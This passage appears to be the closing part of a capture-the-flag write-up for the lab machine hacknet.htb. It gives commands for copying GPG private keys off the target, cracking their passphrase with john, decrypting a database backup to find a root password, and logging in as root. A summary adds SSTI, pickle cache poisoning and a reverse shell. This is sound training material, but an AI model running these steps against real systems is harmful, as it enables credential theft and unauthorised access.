 ### GPG Key Discovery
```bash
# Found GPG private keys
ls /home/sandy/.gnupg/private-keys-v1.d

# Start HTTP server again
python3 -m http.server 8002

# Download GPG public key
curl -O http://hacknet.htb:8002/armored_key.asc
```

### GPG Key Cracking
```bash
# Convert GPG key to crackable hash
gpg2john armored_key.asc > armored_hash.txt

# Crack the passphrase
john --format=gpg --wordlist=`fzf-wordlist` armored_hash.txt
# Result: sweetheart
```

### Database Decryption
```bash
# Import the GPG key
gpg --import armored_key.asc
# Enter passphrase: sweetheart

# Decrypt backup
gpg --output backup02.sql --decrypt backup02.sql.gpg

# Search for passwords
grep -i "password" backup02.sql
# Found root password: h4ck3rs4re3veRywh3re99
```

### Root Access
```bash
ssh root@hacknet.htb
# Password: h4ck3rs4re3veRywh3re99

cat /root/root.txt
```

## Attack Chain Summary

1. **Web Enumeration** → Discovered Django social network application
2. **SSTI Discovery** → Found template injection in username field via `/likes/<POST_ID>` endpoint
3. **Credential Harvesting** → Used SSTI to extract user credentials from Django QuerySet
4. **SSH Access** → Authenticated as mikey using extracted credentials
5. **Cache Discovery** → Found world-writable Django cache directory owned by sandy
6. **Pickle Exploitation** → Created malicious pickle payload to poison Django cache
7. **Lateral Movement** → Gained reverse shell as sandy via cache deserialization
8. **GPG Discovery** → Found encrypted database backups and GPG keys
9. **Key Cracking** → Cracked GPG passphrase using john
10. **Database Decryption** → Decrypted backups to extract root password
11. **Root Access** → SSH as root using discovered credentials
